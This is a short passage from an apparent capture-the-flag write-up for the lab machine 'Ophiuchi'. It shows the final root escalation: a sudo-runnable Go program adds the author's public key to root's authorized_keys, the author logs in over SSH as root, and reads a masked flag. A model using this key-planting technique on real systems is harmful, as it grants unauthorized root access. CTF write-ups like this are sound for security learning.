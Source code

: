 

#### SSH Access

Now I'll run it:



    admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Ready to deploy
    [*] Adding public key to /root/.ssh/authorized_keys
    [+] Done.



Now I can connect as root:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.227
    ...[snip]...
    root@ophiuchi:~#



And grab the flag:



    root@ophiuchi:~# cat root.txt
    bdd26a85************************







